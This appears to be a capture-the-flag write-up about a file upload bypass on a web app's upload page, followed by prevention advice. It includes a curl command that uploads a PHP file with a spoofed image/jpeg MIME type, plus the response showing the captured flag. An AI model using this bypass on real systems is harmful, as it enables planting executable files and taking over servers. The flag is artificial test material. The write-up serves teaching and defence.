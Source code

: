 # Overview

This document outlines the impact and prevention of a security breach involving file upload bypass vulnerabilities. Such vulnerabilities allow attackers to upload malicious files to a system, potentially leading to unauthorized access or control.

## Vulnerability Path
**http://<ip_address>/index.php?page=upload**

## Discovery

### How It's Usually Found

File upload vulnerabilities are typically discovered through security audits, penetration testing, and the use of automated scanning tools designed to identify security weaknesses in web applications.

### How I Discovered It

In the case of the `?page=upload` page, the vulnerability was discovered while attempting to upload different types of files. Initially, a `.php` file upload was attempted, resulting in a failure message. 

Then, using the command line, I executed a curl request to upload a file with a PHP extension, but modified the MIME type to `image/jpeg` to bypass the file upload validation:

```
curl -X POST -F "Upload=Upload" -F "uploaded=@file.php;type=image/jpeg" "http://127.0.0.1:8080/index.php?page=upload" | grep 'The flag is :'
```

The response indicated that the file was successfully uploaded, and the flag was retrieved, demonstrating the exploitation of the file upload vulnerability:

```
 % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  3030    0  2739  100   291    544     57  0:00:05  0:00:05 --:--:--   719
<pre><center><h2 style="margin-top:50px;">The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> </pre><pre>/tmp/file.php succesfully uploaded.</pre>
```

## Prevention

To prevent file upload vulnerabilities, consider the following measures:

1. **Validate File Formats and Extensions**: Implement server-side validation to ensure only files with approved extensions are uploaded. Avoid relying solely on client-side validation.

2. **Use File Upload Validation Frameworks**: Employ trusted frameworks specifically designed for secure file upload validation to cover all potential exploitation vectors.

3. **Enforce File Name Restrictions**: Sanitize uploaded file names to remove dangerous characters and prevent injection attacks. Renaming files upon upload can also mitigate directory traversal vulnerabilities.

4. **Limit File Size**: Set a maximum file size and number of files that can be uploaded to prevent denial-of-service attacks through resource exhaustion.

5. **Content-Type Verification**: Ensure that the MIME type of uploaded files matches expected types for the allowed extensions, adding an additional layer of validation.

## Additional Resources

For more information on mitigating file upload vulnerabilities, the following resources may be helpful:

- [OWASP Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
- [Secure File Upload in Web Applications](https://www.acunetix.com/blog/articles/complete-guide-file-upload-vulnerabilities/)